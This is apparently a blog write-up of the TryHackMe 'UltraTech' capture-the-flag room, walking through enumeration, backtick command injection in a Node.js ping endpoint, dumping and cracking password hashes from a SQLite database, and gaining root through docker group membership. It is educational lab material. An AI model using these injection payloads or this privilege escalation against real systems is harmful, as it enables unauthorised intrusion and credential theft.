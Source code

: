 ```yaml
---
title: "TryHackMe - UltraTech"
author: Nasrallah
description: ""
date: 2022-09-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, docker, cracking, js, rce]
img_path: /assets/img/tryhackme/ultratech
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [UltraTech](https://tryhackme.com/room/ultratech1) from [TryHackMe](https://tryhackme.com). The machine is running a web server where we find a js file disclosing a way to run command on the target that leads to a foothold. Being part of docker group makes it easy to get root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.216.105
Host is up (0.093s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The scans shows 3 open ports, 22 running VSFTPD, 22 running OpenSSH and 8081 running Node.js.

If we run another nmap scan for all ports, it discovers another open ports

```terminal
31331/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

Port 31331 open running Apache web server.

### Web

Let's navigate to the node.js web page on port 8081.

![](1.png)

Nothing interesting, let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.85.137:8081
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 05:36:33 Starting gobuster in directory enumeration mode
===============================================================
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
===============================================================

```

Found two directories but they don't give much information.

Let's go the the web page on port 31331.

![](2.png)

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.85.137:31331
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 06:02:40 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.85.137:31331/css/]
/favicon.ico          (Status: 200) [Size: 15086]                                   
/images               (Status: 301) [Size: 322] [--> http://10.10.85.137:31331/images/]
/javascript           (Status: 301) [Size: 326] [--> http://10.10.85.137:31331/javascript/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.85.137:31331/js/]        
/robots.txt           (Status: 200) [Size: 53]                                             
/server-status        (Status: 403) [Size: 303]                                            
===============================================================
```

Let's check `robots.txt`.

![](3.png)

Let's see what's on the text file.

![](4.png)

Found a couple of html file but they are not very useful to us.

Checking other directories we found with gobuster we find the following.

![](5.png)

The api.js file has the following.

```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();

```

According to the js file, we can execute command on `http://{APIURL}:8081/ping?ip={command}`

## **Foothold**

Let's test this functionality by running the command `id` for example:

```text
http://10.10.216.105:8081/ping?ip=`id`
```

![](6.png)

We have command execution on the target.

When we run the `ls`, we get this.

```terminal
┌──(sirius㉿kali)-[~]
└─$ curl 'http://10.10.216.105:8081/ping?ip=`ls`'                   
ping: utech.db.sqlite: Name or service not known
                                                                                                                                                             
┌──(sirius㉿kali)-[~]
└─$ curl 'http://10.10.216.105:8081/ping?ip=`cat%20utech.db.sqlite`'
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
                      
```

We found a file with some hashes in it. We can crack them using [crackstation](https://crackstation.net/)

![](7.png)

Got the password for `r00t`, let's login with ssh.

![](8.png)

## **Privilege Escalation**

When we run the command `id`, we get this:

```terminal
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We are part of `docker` group. Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell)

![](9.png)

We can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` to get root.

![](11.png)

There is no image called alpine.

Let's list the docker process with `docker ps -a` and replace **alpine** with the image we find in the process.

![](10.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
